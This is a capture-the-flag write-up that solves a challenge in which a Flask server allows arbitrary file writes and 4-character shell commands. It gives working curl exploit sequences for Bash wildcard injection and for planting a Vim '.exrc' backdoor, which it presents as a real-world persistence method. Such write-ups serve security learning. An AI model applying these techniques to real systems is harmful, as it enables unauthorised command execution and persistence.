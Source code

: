 ## WX Underground

### Task intro
Description of the task:

```
Decades ago, the great city of Cockbit was wiped from the map of our world. Ever since, nestled amid the forsaken stones of the once-mighty city, a hidden corridor stirs to life for a day in a year. What lies at its end defies the understanding of conventional science. Those few who have returned speak of IT with ceaseless awe.   Only true hero can surpass all the obstacles and emerge victory over this dangerous creature. If only we knew who can instill hope to the hearts of oppressed...
```

We are given python server with possibilty of arbitary file wrtie and arbitary command, but limited to 4 characters.
```py
from flask import Flask, request, send_file
import subprocess

app = Flask(__name__)

# Inspired by and derived from https://ctftime.org/task/30126
@app.route('/write', methods=['POST'])
def write():
    filename = request.args.get('filename', '')
    content = request.get_data()
    try:
        with open(filename, 'wb') as f:
            f.write(content)
            f.flush()
        return 'OK'
    except Exception as e:
        return str(e), 400

@app.route('/exec')
def execute():
    cmd = request.args.get('cmd', '')
    if len(cmd) > 4:
        return 'Command too long', 400
    if "|" in cmd:
        return 'No pipi racing this time :(', 400
    try:
        output = subprocess.check_output(cmd, shell=True)
        return output
    except Exception as e:
        return str(e), 400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=7331)

```

We need to execute compiled binary with 5 arguments to read the flag:
```cpp
#include <stdio.h>
#include <string.h>
#include <unistd.h>

// Inspired by and derived from https://ctftime.org/task/30126
int main(int argc, char *argv[]) {
    char full_cmd[256] = {0}; 
    for (int i = 1; i < argc; i++) {
        strncat(full_cmd, argv[i], sizeof(full_cmd) - strlen(full_cmd) - 1);
        if (i < argc - 1) strncat(full_cmd, " ", sizeof(full_cmd) - strlen(full_cmd) - 1);
    }

    if (strstr(full_cmd, "tung tung tung tung sahur")) {
        FILE *flag = fopen("/flag.txt", "r");
        if (flag) {
            char buffer[1024];
            while (fgets(buffer, sizeof(buffer), flag)) {
                printf("%s", buffer);
            }
            fclose(flag);
            return 0;
        }
    }

    printf("Konon katanya kalau ada orang yang dipanggil Sahur tiga kali dan tidak nyaut maka makhluk ini datang di rumah kalian: %s\n", full_cmd);
    return 1;
}

```

## Solution 1: Wildcard Injection

I like CTF challenges, which use real-world patterns. In this task we have the ability to use special characters and commands in Bash because of the option `shell=True`. We can't use pipes, but wildcard `*` and the new command via `;` are still available for us. We can remember bash script misconfigurations, which lead to privilege escalation. And the main idea is [Wildcard Injection](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/). We can create arbitrary files and call them as arguments via `*`. But we have only 4 characters; from where can we use this attack? We are not root, so my first assumption was `/tmp`. But this will not work, because we can't traverse to there. The second assumption was to use a double wildcard `/*/*` and this is better but not good enough. We need another writable path. Let's just search for it:
```bash
$ find / -exec test -w {} \; -exec echo {} \; 2>/dev/null
/proc/sys/kernel/ns_last_pid
/proc/keys
<proc paths>
/home/patapim
/sys/firmware
/dev/pts/0
/dev/pts/ptmx
/dev/mqueue
/dev/shm
/dev/null
/dev/random
/dev/full
/dev/tty
/dev/zero
/dev/urandom
/dev/ptmx
/dev/stdin
/dev/stdout
/dev/stderr
/dev/core
/var/tmp
/tmp
```

And we can see the home folder `/home/patapim`, which can be very useful. This is because the `cd` command without arguments will move to it. We can traverse and do wildcard injection by `cd;*`. Before executing, we need to create a full command. Only limitation: that output of wildcard is sorted. We have to be creative and call chmod on our sh script. We can construct the next chmod command `chmod u+x z`, which is sorted. After we add executable permission to the payload, we can just call it by the special variable `~`.
```bash
$ curl "http://127.0.0.1:7331/write?filename=/home/patapim/z" -d "/tung tung tung tung tung sahur"
OK%
$ curl "http://127.0.0.1:7331/write?filename=/home/patapim/u%2bx" -d "u+x"
OK%
$ curl "http://127.0.0.1:7331/write?filename=/home/patapim/chmod" -d "chmod"
OK%
$ curl "http://127.0.0.1:7331/exec?cmd=cd;*"
$ curl "http://127.0.0.1:7331/exec?cmd=~/z"
SAS{example}
```

## Solution 2: Vim backdoor

Another way to solve it is to backdoor vim. We can change the configuration file for Vim and then execute it. This is realword way to achieve persistence on a system or read all writable data.
```bash
$ curl "http://127.0.0.1:7331/write?filename=/home/patapim/a" -d "/tung tung tung tung tung sahur"
OK%
$  curl "http://127.0.0.1:7331/write?filename=/home/patapim/.exrc" -X POST --data '!chmod 777 ~/a'
OK%
$  curl "http://127.0.0.1:7331/exec?cmd=vi"
Command 'vi' returned non-zero exit status 1.%
$  curl "http://127.0.0.1:7331/exec?cmd=~/a"
SAS{example}
```

